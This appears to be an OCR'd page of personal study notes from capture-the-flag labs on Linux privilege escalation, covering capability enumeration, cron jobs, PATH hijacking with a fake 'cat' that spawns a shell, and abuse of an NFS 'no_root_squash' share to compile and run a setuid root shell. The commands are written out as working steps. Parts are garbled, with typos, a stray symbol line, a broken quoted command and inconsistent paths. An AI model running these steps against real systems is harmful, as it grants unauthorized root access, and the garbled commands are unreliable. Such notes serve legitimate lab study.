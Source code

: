    - getcap -r / 2>/dev/null
 ==========================================================================================================

 ## 4. Privilege Escalation: Cron Jobs

 * cat /etc/crontab

 ==========================================================================================================

 ## 5. Privilege Escalation PATH

 * folder you have write access for.

 * echo cat /home/matt/flag6.txt" > thm

 * export PATH=/home/murdoch:$PATH

 $%$%$%$%$%$%$%$%$%$%$%$%$%$%$%$$%$%$%$%$% 

 * @see groub bu ```id```

 * now in this instance we created a new ```cat``` file in /tmp that when ran would spawn a shell.

 > cd /tmp$

  echo "/bin/sh" > cat

  chmod +x cat

  export PATH=/tmp:$PATH

  echo $PATH

  run bugtracker


 ==========================================================================================================

 ## 6. Privilege Escalation NFS (Network File Sharing) 

 * ```cat  /etc/exports``` :: The critical element for this privilege escalation vector is the “no_root_squash”.

 * mkdir /tmp/sharedfolder

 * sudo mount -o rw 10.10.114.12:/home/ubuntu/sharedfolder /tmp/sharedfolder

 * nana nfs.c === root_int_shell.c

 * cd /tmp/sharedfolder
 
 * gcc nfs.c -o nfs -w

 * chmod +s nfs

 * ./nfs
